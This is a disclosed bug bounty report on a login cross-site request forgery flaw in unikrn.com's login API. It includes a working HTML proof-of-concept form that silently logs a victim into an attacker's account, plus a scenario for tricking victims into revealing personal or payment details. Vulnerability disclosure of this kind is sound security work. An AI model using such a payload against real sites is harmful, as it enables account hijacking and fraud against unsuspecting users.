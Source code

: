 # CSRF logs the victim into attacker's account

## Report Details
- **Report ID**: 339352
- **URL**: https://hackerone.com/reports/339352
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-04-17T04:02:11.403Z
- **Disclosed**: 2018-04-19T15:58:26.596Z

## Reporter
- **Username**: albatraoz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: unikrn

## Vulnerability Information
Description: There is no session validation while logging in which leads to csrf.

Steps To Reproduce:

  1. Create a CSRF login POC using the following code.
<html>
  <body>
    <form action="https://unikrn.com/apiv1/login" method="POST">
	  <input type="hidden" name="usr" value="[email]">
	  <input type="hidden" name="pwd" value="[password]">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
  
  2. Replace the email and password with the valid credentials.
  3. Send the script to the victim to make them click.

References:

1. You've rewarded a guy for login csrf here: https://hackerone.com/reports/293016
2. Impact of login csrf on a company: https://support.detectify.com/customer/portal/articles/1969819-login-csrf

## Impact

1. Log any victim into the attacker account, the attacker can create a similar account profile as the victim - with some information missing, and then social-engineering (e.g. email) user to provide personal information or current password and can also monitor the victim activities. 
2. Also the victim may add his paymet info in the attackers account unknowingly using your wallet feature.

The hacker selected the **Cross-Site Request Forgery (CSRF)** weakness. This vulnerability type requires contextual information from the hacker. They provided the following answers:

**URL**
https://unikrn.com/apiv1/login

**Verified**
Yes

**Can a victim be forced to perform a sensitive state-change operation unknowningly?**
Yes

**What state-change operation can be performed?**
Any user details.

## Attachments
No attachments

